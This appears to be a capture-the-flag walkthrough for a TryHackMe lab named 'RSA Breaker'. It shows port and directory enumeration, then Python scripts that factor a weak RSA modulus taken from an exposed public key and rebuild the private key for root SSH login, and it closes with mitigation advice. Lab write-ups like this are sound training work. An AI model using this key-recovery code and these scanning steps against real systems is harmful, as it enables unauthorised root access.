 # RSA Breaker – TryHackMe VAPT Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 15, 2025  
**Difficulty:** Medium  
**Category:** Cryptography / SSH Exploitation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open services and enumerate web-facing files.
- **Commands Used:**  
  ```bash
  ping 
  nmap -sV -T4 
  ```
- **Findings:**
  - Open ports: 22 (SSH – OpenSSH 8.2p1), 80 (HTTP – nginx 1.18.0).
  - Both running on Linux.
  - Web enumeration revealed an accessible `id_rsa.pub` (public SSH RSA key).

---

## 2. Exploitation Process

### Step 1 – Directory Bruteforce
- Used `gobuster` to enumerate HTTP content:
  ```bash
  gobuster dir -u http:// -w /usr/share/wordlist/dirb/common.txt
  ```
- Discovered and downloaded the `id_rsa.pub` file.

### Step 2 – RSA Public Key Analysis & Private Key Recovery
- Analyzed the public key, extracted modulus (`n`), and computed its properties.
- **Python scripts used for key analysis and private key recovery:**


Code to get bit size and last 10 digits of modulus

```python
#!/usr/bin/env python3
from Crypto.PublicKey import RSA

with open('id_rsa.pub', 'r') as file:
    public_key = RSA.import_key(file.read())
bit_size = public_key.size_in_bits()
n = public_key.n
x = str(n)[-10:]

print(f"The size in bits of the public key is: {bit_size}")
print(f"The last 10 digits of the public key are: {x}")
```


---


Code to factorize RSA modulus and get difference of factors

```python
#!/usr/bin/env python3
from Crypto.PublicKey import RSA
from gmpy2 import isqrt

def factorize(n):
    # since even nos. are always divisible by 2, one of the factors will always be 2
    if (n & 1) == 0:
        return (n//2, 2)
    a = isqrt(n)
    if a * a == n:
        return a, a
    while True:
        a += 1
        bsq = a * a - n
        b = isqrt(bsq)
        if b * b == bsq:
            break
    return a + b, a - b

with open('id_rsa.pub', 'r') as file:
    public_key = RSA.import_key(file.read())
bit_size = public_key.size_in_bits()
n = public_key.n
x = str(n)[-10:]
p, q = factorize(n)
print(f"The size in bits of the public key is: {bit_size}")
print(f"The last 10 digits of the public key are: {x}")
print(f"The difference between p and q is: {p - q}")
```


---


Code to reconstruct private key from public key (and save to PEM)

```python
#!/usr/bin/env python3
from Crypto.PublicKey import RSA
from gmpy2 import isqrt, invert, lcm

def factorize(n):
    # since even nos. are always divisible by 2, one of the factors will always be 2
    if (n & 1) == 0:
        return (n//2, 2)
    a = isqrt(n)
    if a * a == n:
        return a, a
    while True:
        a += 1
        bsq = a * a - n
        b = isqrt(bsq)
        if b * b == bsq:
            break
    return a + b, a - b

def get_private_key(e, p, q):
    # Calculate the modular inverse
    return invert(e, lcm(p - 1, q - 1))

with open('id_rsa.pub', 'r') as file:
    public_key = RSA.import_key(file.read())
bit_size = public_key.size_in_bits()
n = public_key.n
x = str(n)[-10:]
e = 65537
p, q = factorize(n)
d = get_private_key(e, p, q)
private_key = RSA.construct((n, e, int(d)))
with open('id_rsa', 'wb') as file:
    file.write(private_key.export_key('PEM'))
print(f"The size in bits of the public key is: {bit_size}")
print(f"The last 10 digits of the public key are: {x}")
print(f"The difference between p and q is: {p - q}")
print(f"The value of the private key is {d}")
print("You can find your key in this directory.")
```


---

### Step 3 – SSH Access as root
- Set file permissions for your generated private key:
  ```bash
  chmod 600 id_rsa
  ```
- Logged in via SSH using the reconstructed private key:
  ```bash
  ssh -i id_rsa root@
  ```
- Gained root shell and retrieved the server flag:
  ```bash
  cat flag
  ```
- Successfully captured the target flag.

---

## 3. Proof of Concept (PoC)

- Used directory bruteforce and public key cryptanalysis to break SSH security.
- Python code (above) fully demonstrates how the private key was calculated and exploited.

---

## 4. Privilege Escalation

- None required. The calculated private key enabled direct root SSH access.

---

## 5. Mitigation Recommendations

- **Never expose cryptographic key material** (public or private) on web-accessible directories.
- Use strong, randomly-created RSA primes so factorization attacks can't succeed.
- Regularly audit publicly-accessible directories for sensitive files.
- Limit root SSH login, rotate keys, and monitor for suspicious access.

---

## 6. Lessons Learned

- Exposing pubkey files can allow attackers to break into SSH easily if the modulus is weak.
- Python and open-source crypto libraries can be used to launch and automate advanced attacks.
- Directory scanning and file analysis are vital in both cryptography and application security.

---

## 7. Skills Practiced

- Service enumeration and directory bruteforce
- RSA modulus analysis and factorization
- Private key reconstruction and SSH exploitation
- Secure reporting and explicit code documentation

---
